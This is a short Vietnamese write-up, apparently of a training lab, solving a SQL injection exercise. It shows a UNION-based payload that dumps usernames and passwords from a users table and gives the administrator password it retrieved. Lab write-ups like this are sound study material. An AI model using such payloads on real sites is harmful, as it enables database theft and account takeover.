


Xin chào các bạn đã trở lại với series này của mình @@
  -- Lại là chuỗi bài SQLi hôm này đề bày chúng ta sẽ như sau
   Tấn công UNION SQL SQL , lấy dữ liệu từ các bảng khác thì nó cũng same mấy bài trước
   cụ thể hơn thì đề bài là như thế này:
                                        Cơ sở dữ liệu chứa một bảng khác có tên là users, với các cột được gọi usernamelà và password. Để giải quyết bài thí nghiệm, hãy thực hiện cuộc tấn công UNION tiêm SQL để truy xuất tất cả tên người dùng và mật khẩu, đồng thời sử dụng thông tin để đăng nhập với tư cách administrator người dùng.
  ++Oke let 's go :

bắt đầu thì sương sương như này giờ thì thử check thôi
                                        filter?category=Gifts' UNION SELECT username, password FROM users --
Mình sẽ thử như này đầu tiên và một phát ăn luôn @@

passwd của administrator là htthwybgqms9ms03l0tv
chúc các bạn thành công :))
Author : l3mh0cr3d from kma wit4 l013